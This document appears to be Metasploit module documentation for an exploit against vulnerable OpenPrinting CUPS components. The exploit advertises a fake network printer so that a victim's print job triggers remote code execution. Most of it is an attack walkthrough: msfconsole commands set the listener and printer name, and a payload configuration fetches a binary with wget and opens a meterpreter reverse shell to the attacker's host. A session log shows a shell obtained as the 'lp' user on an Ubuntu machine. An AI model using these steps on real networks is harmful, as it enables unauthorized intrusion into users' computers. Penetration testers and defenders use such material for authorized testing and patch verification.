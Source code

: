 ## Vulnerable Application

This module exploits vulnerabilities in OpenPrinting CUPS that allow an attacker on the LAN to advertise a malicious printer that triggers remote code execution when a victim sends a print job to it. For a technical analysis of the vulnerability, read the [original researcher's publication](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/). The vulnerabilities affect the following components and versions:

- cups-browsed <= 2.0.1
- libcupsfilters <= 2.1b1
- libppd <= 2.1b1
- cups-filters <= 2.0.1

Successful exploitation requires user interaction (victim must attempt to print to the malicious printer), but no CUPS services need to be reachable via accessible ports. Code execution occurs in the context of the 'lp' user. NOTE: Many mNDS multicast advertisements will be sprayed by this module to increase the odds of automatically populating the victim's printer list.

## Testing

The module has been tested against Ubuntu 22.04 with an unpatched default CUPS installation. The exploit should work against most Linux distributions that use a vulnerable version of CUPS for printing.

## Verification Steps

1. Start msfconsole
2. `use exploit/multi/misc/cups_ipp_remote_code_execution`
3. `set SRVHOST <YOUR_IP_ADDRESS>` (cannot be 0.0.0.0)
4. `set LHOST <YOUR_IP_ADDRESS>`
5. `set PrinterName <PRINTER_NAME>` (defaults to "PrintToPDF")
6. `exploit`
7. From a victim system on the LAN, open a printer dialog. For example, browse to any web page in Firefox and press Ctrl+P.
8. Select the malicious printer from the printer selection dropdown. When the victim has fetched the FoomaticRIP payload from the malicious IPP server, the "Print" button should become clickable.
9. Click "Print". A new meterpreter session should open.

## Options

**PrinterName**

The name of the malicious printer to advertise on the network. Default: PrintToPDF

**SRVHOST**

The local host address to listen on. This must be set to a specific interface address, not 0.0.0.0, since it's used in mDNS advertisements

**SRVPORT**

The local port for the IPP service. Default: 7575

## Scenarios

### Linux Command

Note: The listener should be left running until a victim interacts with the fake printer. By default, the 'WfsDelay' stager time value is 10800 seconds, or three hours

```
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> show options

Module options (exploit/multi/misc/cups_ipp_remote_code_execution):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PrinterName  PrintToPDF       yes       The printer name
   SRVHOST                       yes       The local host to listen on (cannot be 0.0.0.0)
   SRVPORT      7575             yes       The local port for the IPP service
   SSL          true             no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JXrkCMgtG        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set SRVHOST 192.168.5.2
SRVHOST => 192.168.5.2
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set LHOST 192.168.5.2
SRVHOST => 192.168.5.2
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set SRVPORT 9596
SRVPORT => 9596
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set PrinterName Canon
PrinterName => Canon
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.5.2:4444
[msf](Jobs:1 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >>
[*] IPP service started on 192.168.5.2:9596
[*] Services started. Printer 'Canon' is being advertised
[*] The exploit will continue listening for victim callbacks for the next 10800 seconds
[*] Meterpreter session 1 opened (192.168.5.2:4444 -> 192.168.5.251:59248) at 2024-11-11 12:55:55 -0600

[msf](Jobs:1 Agents:1) exploit(multi/misc/cups_ipp_remote_code_execution) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > sysinfo
Computer     : 192.168.5.251
OS           : Ubuntu 22.04 (Linux 6.5.0-18-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/) > getuid
Server username: lp
(Meterpreter 1)(/) >
```

